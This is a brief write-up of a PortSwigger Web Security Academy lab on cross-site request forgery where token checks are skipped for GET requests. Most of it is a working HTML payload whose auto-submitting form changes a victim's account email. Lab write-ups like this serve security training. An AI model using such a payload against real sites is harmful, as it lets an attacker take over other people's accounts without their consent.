 
#CSRF #CSRF-Tokens

CSRF where token validation depends on request method: [link](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

in this challenge the CSRF happen because the backend does not stop the get request to send data it's old and not exists in the new web applications

**payload :**
```
<html>

<form class="login-form" name="change-email-form" action="https://web-security-academy.net/my-account/change-email" method="GET">

<label>Email</label>

<input required="" type="email" name="email" value="newwemail@gmail.com">

<button class="button" type="submit"> Update email </button>

</form>

<script>

document.forms[0].submit()

</script>
</html>
```
